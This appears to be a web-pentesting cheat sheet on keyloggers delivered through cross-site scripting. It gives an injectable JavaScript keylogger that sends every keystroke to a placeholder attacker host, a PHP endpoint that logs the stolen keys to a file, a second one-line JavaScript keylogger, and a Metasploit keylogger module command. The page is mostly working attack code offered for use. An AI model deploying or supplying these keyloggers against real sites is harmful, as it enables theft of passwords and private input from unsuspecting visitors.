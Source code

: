 # Keyloggers

Search Tag(s): #helpers #webapp-pentesting #cross-site-scripting

## 01 - Server-Side

### 1.1 - PHP

```php
/*
To inject the keylogger:

</script>
document.onkeypress = function(evt) {
    evt = evt || window.event;
    const keystroke = String.fromCharCode(evt.charCode);
    if(key) {
        const parameter = encodeURI(keystroke);
        fetch("http[s]://<IP>/keylogger.php", {
            method: "POST",
            headers: {
                "Content-Type": "application/x-www-form-urlencoded"            
            },
            body: "key=" + parameter
        });
    }
}
</script>
*/

<?php
header("Access-Control-Allow-Origin: *");
if(!empty($_POST['key'])) {
    $log = fopen('keylog.txt', 'a+');
    fwrite($log, $_POST['key']);
    fclose($log);
}
?>
```

### 1.2 - JavaScript

```js
function sendKey(event) {
	fetch("http[s]://<IP>/data?k=" + event.key);
}
document.addEventListener('keydown', sendkey);
```

## 02 - Metasploit

TODO: Fill this info

```
msf > use auxiliary/server/capture/http_javascript_keylogger

msf auxiliary(server/capture/http_javascript_keylogger) > options
```

---
## References

- [IMVK: Cross Site Scripting – Exploitation ](https://imvk.net/en/infosec/ethical-web-hacking/cross-site-scripting-exploitation)

- [Geeky much: Cross-site Scripting](https://medium.com/secure-you/cross-site-scripting-b64f440ae060)

- [Rapid7: Metasploit JavaScript Keylogger](https://www.rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/)